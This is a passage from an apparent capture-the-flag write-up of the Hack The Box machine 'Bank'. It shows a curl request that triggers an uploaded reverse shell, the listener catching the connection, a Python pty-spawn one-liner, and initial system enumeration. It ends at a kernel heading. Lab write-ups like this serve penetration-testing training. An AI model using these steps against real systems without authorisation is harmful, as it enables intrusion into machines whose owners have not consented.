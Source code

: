 ```sh
❯ curl -s -o "/dev/null" "http://bank.htb/uploads/revshell.htb"
```

And if we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.29] 56094
<SNIP>
www-data@bank:/var/www/bank/uploads$
```

It caught the reverse shell!

### Spawning a pty

Let's use this one-liner to spawn a pty:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `www-data`.

### Architecture

What is Bank's architecture?

```sh
www-data@bank:/var/www/bank/uploads$ uname -m
```

```
i686
```

It's using i686. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Bank is using.

```sh
www-data@bank:/var/www/bank/uploads$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
```

Okay, so it's Ubuntu 14.04.

### Kernel
